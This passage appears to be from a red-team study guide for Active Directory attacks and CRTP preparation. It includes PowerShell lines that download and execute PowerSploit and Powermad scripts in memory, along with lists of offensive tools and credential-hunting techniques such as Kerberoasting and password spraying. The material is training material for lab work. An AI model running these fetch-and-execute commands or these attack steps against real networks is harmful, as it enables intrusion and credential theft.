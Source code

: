 ### **🪟 Advanced Windows Setup**
```powershell
# PowerShell Modules
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1')

# C# Tools (Download and compile or use pre-compiled)
# SharpHound, Rubeus, Seatbelt, SharpUp, Certify, Whisker
# SharpGPOAbuse, SharpSCCM, SharpPrintNightmare, SharpZeroLogon

# Advanced PowerShell Tools
Import-Module ActiveDirectory
Import-Module GroupPolicy
Install-Module ADRecon
```

### **🐳 Docker Environments**
```bash
# BloodHound
docker run -p 7474:7474 -p 7687:7687 neo4j:latest

# Impacket
docker pull securitynik/impacket

# Complete AD Lab
docker-compose up -d goad # Game of Active Directory
```

---

## 🎯 **Advanced Methodology & Tips**

### **🔍 Systematic Enumeration Approach**
1. **Network Discovery**: `nmap`, `crackmapexec smb`, port scanning
2. **Domain Enumeration**: `BloodHound`, `PowerView`, LDAP queries
3. **Credential Hunting**: Kerberoasting, ASREPRoasting, password spraying
4. **Certificate Analysis**: `certipy find`, template enumeration
5. **Trust Relationships**: Domain trusts, forest trusts, external trusts
6. **Service Analysis**: Exchange, SCCM, SQL servers, web applications
7. **Misconfigurations**: Unconstrained delegation, dangerous permissions

### **🏆 Certification-Specific Strategies**

#### **🎯 CRTP (Certified Red Team Professional)**
- Focus on PowerShell and .NET techniques
- Master BloodHound for attack path discovery
- Practice constrained delegation exploitation
- Understand forest-level attacks and cross-domain scenarios
- SQL server links are common privilege escalation vectors

